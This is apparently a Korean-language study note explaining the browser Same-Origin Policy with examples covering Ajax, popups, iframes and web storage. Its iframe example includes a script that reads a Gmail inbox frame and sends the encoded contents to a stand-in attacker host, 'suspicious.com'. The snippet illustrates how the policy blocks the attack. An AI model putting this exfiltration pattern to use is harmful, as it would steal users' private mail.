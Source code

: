 # SOP(동일 출처 정책)

Origin A로 부터 로드된 Document A 또는 Script A가 

다른 Origin B로 부터 로드된 리소스와 상호작용할 수 있는 방법을 제한하는 보안 메커니즘입니다.



<hr>

- 현 Document가 어느 Origin으로 부터 로드된 것인지 알아보는 방법

  ```js
  document.location.origin //"https://www.naver.com"
  ```



# Same Origin 

> **동일한 Origin을 갖는지 판단하는 방법**
>
> (스킴 + 호스트 + 포트) 이 세 개의 조합이 같은 경우만 same origin임

> (예)
>
> https://www.naver.com/path/page.html
>
> https://www.naver.com:443/path2/page.html
>
> 위 두 리소스는 origin이 동일함(https의 기본 포트는 443)

 

# SOP가 적용되는 사례

## 1. Ajax

```js
//  https://www.siteA.com가 Origin인 공격자 Document의 script

var oReq = new XMLHttpRequest();
oReq.open("GET", "https://api.dokydoky.com/profile");
...
```

위 API호출로 JSON 응답데이터 {"id": "dokydoky", "nickname": "enjoying"}을 응답받을 수 없다. (READ불가능함)

(이유) 

 **Document의 Origin**과 **JSON의 Origin** 서로 다름.

(정리)

- 일반적인 경우 

  - 다른 Origin으로 요청을 보낸는 것 허용.
  - 응답이 필요없는 UPDATE, DELETE종류는 요청만으로도 가능(WRITE가능)
  - 단, CSRF공격에 대한 대비를 해야한다.
  - 다른 Origin으로 부터의 응답은 못받음.

  

- Preflight 요청일 경우

  - 다른 Origin으로 요청 불가능

## 2. 팝업

```js
//https://popup.siteA.com이 Origin인 Document A
window.open('https://popup.siteB.com')
```

새로운 팝업창(즉, 새로운 window)에 Document B가 로드된다.(SiteB로 부터)

SiteA로 부터 로드된 Document A는 Document B에 접근할 수 없다.



## 3. iframe

- \<script src=""> \<link rel="stylesheet" href="" > \<img> 등등
- 로딩은 가능함
- 단, 내부 리소스 접근 불가

```html
<!-- https://siteA.com이 Origin인 Document A -->
<iframe src="https://siteB.com">
```

Document A에 embeding된 iframe에 Document B가 로드되긴함.

하지만 Same Origin이 아니므로 A에서 B로 접근 불가능함.(즉, A에서 B의 리소스를 사용할 수 없음)



## 4. 웹데이터베이스

로컬스토리지, 세션스토리지는 Origin마다 하나씩 생성됨.

Same Origin인 Document나 Script에서 접근가능하다.



# 예제 코드 

## 1. iframe

```html
<!--www.siteA.co.kr -->
<iframe id="mail" src="https://mail.google.com/mail/inbox">   
</iframe>

<script>
	document.getElementById("mail").addEventListener("load", function(e){
        mailDate = document.getElementById("mail").contentDocument.body
        encoded = btoa(encodeURIComponent(mailData))
        fetch("https://www.suspicious.com?" + encoded)
    })
</script>
```

1. **SOP가 적용되지 않았을 때**

   - SiteA에서 `<iframe id="mail" src="https://mail.google.com/mail/inbox"> 코드를 통해 

     gmail로 리소스요청을 보낸다. 이때 gmail계정 세션쿠키가 Same site = none;인 상태로 쿠키값이 브라우저에 있다면 세션쿠키값이 SiteA에서 gmail로 호출시 요청헤더에 담겨 전송된다.

   - iframe에 메일정보가 로드됨.
   - 메일정보를 Top-level document에서 다른 해킹서버로 탈취함.


   ​    

2. **SOP 적용**

   - iframe에 메일데이터가 로드되는 것까지 위와 동일함
   - 하지만, iframe내부의 document를 참조하려는 시도를 할 때(.contentDocument) Null값을 리턴함.

   

   ### Cross-Origin간 정말로 데이터 교환이 필요할 때는?

   - window.postMeassage
   - 허용할 Origin (SiteA)를 응답헤더 "Access-Control-Allow-Origin"의 값으로 추가한다.











